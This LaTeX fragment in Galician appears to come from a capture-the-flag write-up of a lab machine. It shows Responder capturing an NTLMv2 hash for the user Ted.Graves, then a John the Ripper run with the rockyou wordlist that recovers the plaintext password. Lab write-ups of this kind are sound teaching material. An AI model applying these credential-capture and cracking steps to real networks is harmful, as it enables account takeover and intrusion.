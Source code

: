 \documentclass[a4paper]{article}
\begin{document}
\begin{lstlisting}[language=Bash, caption=Sniffer responder]
[+] Current Session Variables:
    Responder Machine Name     [WIN-2S5JDT8VEO7]
    Responder Domain Name      [3YAN.LOCAL]
    Responder DCE-RPC Port     [49003]

[+] Listening for events...

[HTTP] Sending NTLM authentication request to ::ffff:10.10.10.248
[HTTP] GET request from: ::ffff:10.10.10.248  URL: / 
[HTTP] NTLMv2 Client   : ::ffff:10.10.10.248
[HTTP] NTLMv2 Username : intelligence\Ted.Graves
[HTTP] NTLMv2 Hash     : Ted.Graves::intelligence:4745f99d526a968f:8C3FB7124A598E1E864702B5BBB383DE:
01010000000000000284F919EB79D80176795955FBE9F75500000000020008003300590041004E0001001E00570049004E00
2D003200530035004A00440054003800560045004F003700040014003300590041004E002E004C004F00430041004C000300
3400570049004E002D003200530035004A00440054003800560045004F0037002E003300590041004E002E004C004F004300
41004C00050014003300590041004E002E004C004F00430041004C0008003000300000000000000000000000002000000CB2
EC22769648DCD4A1DB26024C76D5E79BB1E85FEE97E0F4DD9AFF37F06B2E0A00100000000000000000000000000000000000
09003A0048005400540050002F0077006500620032006F006C0069002E0069006E00740065006C006C006900670065006E00
630065002E006800740062000000000000000000\end{lstlisting}

\subsubsection{Credenciais usuario Ted.Graves}
Conseguimos o hash do usuario \textbf{Ted.Graves}, do cal imos intentar descubrir o contrasinal mediante \textbf{John The Ripper}:
        \begin{lstlisting}[language=Bash, caption=Credenciais Ted.Graves]
$ cat hashes-responder.txt;john --wordlist=/usr/share/wordlists/rockyou.txt hashes-responder.txt 
Ted.Graves::intelligence:a9780eb466b95a59:10416D644E2D09301C630203DB065696:01010000000000003E19B11AE
B79D8015D4A55333B8D8FFA00000000020008003300590041004E0001001E00570049004E002D003200530035004A0044005
4003800560045004F003700040014003300590041004E002E004C004F00430041004C0003003400570049004E002D0032005
30035004A00440054003800560045004F0037002E003300590041004E002E004C004F00430041004C0005001400330059004
1004E002E004C004F00430041004C0008003000300000000000000000000000002000000CB2EC22769648DCD4A1DB26024C7
6D5E79BB1E85FEE97E0F4DD9AFF37F06B2E0A001000000000000000000000000000000000000900380048005400540050002
F007700650062006F006C0069002E0069006E00740065006C006C006900670065006E00630065002E006800740062000000000000000000

Using default input encoding: UTF-8
Loaded 1 password hash (netntlmv2, NTLMv2 C/R [MD4 HMAC-MD5 32/64])
Press 'q' or Ctrl-C to abort, almost any other key for status
0g 0:00:00:17 44.58% (ETA: 21:22:34) 0g/s 381934p/s 381934c/s 381934C/s kodima..kodikastimis
Mr.Teddy         (Ted.Graves)     
1g 0:00:00:28 DONE (2022-06-06 21:22) 0.03497g/s 378254p/s 378254c/s 378254C/s Mr.bobo..Mr.Smith5
Use the "--show --format=netntlmv2" options to display all of the cracked passwords reliably
Session completed.\end{lstlisting} 
 
\end{document}
